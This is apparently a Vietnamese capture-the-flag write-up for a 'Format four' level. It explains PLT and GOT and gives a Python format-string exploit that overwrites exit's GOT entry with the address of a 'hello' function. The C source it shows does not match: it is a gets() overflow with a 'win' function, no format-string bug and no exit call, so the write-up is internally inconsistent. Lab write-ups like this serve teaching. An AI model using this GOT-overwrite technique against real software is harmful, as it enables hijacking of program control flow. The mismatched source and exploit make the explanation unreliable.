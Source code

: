 # Format four
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Sơ qua về GOT và PLT 
Theo định nghĩa thì:
- PLT stands for Procedure Linkage Table which is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time.

- GOT stands for Global Offsets Table and is similarly used to resolve addresses.

vậy cơ bản thì đây là phần nằm trong .plt 
![Alt text](image.png)

và đây là phần nằm trong .got
![Alt text](image-1.png)

 trong đó 0x080483f2 là địa chỉ thực của hàm exit@plt 
## Giải
- ta có địa chỉ của hàm hello là:
![Alt text](image-2.png)

- Cho địa chỉ của hàm hello thay thế cho địa chỉ của exit và ta được
![Alt text](image-4.png)

Bây giờ chúng ta sẽ viết 1 đoạn script để exploit chương trình này:
```py
import struct

HELLO = 0x080484b4
EXIT_PLT = 0x8049724

def pad(s):
    return s + "X"*(512-len(s))

exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT+2)
exploit += "BBBBCCCC"
exploit+= "%33956x"
exploit+="%4$n"
exploit+= "%33616x"
exploit+="%5$n"
print(pad(exploit))
```


Trong đó
> exploit+= "%33956x"
> exploit+="%4$n"

dùng để ghi đè 2 byte cuối của địa chỉ bên trong GOT thành `84b4` cách tính toán này tương tự như bài `format_3`

> exploit+= "%33616x"
> exploit+="%5$n"

để ghi 2 byte trên của địa chỉ trong GOT thành `0804`
(ở đây chính xác hơn phải là `10804` nhưng GOT chỉ thấy 4 byte thôi nên không ảnh hưởng gì cả)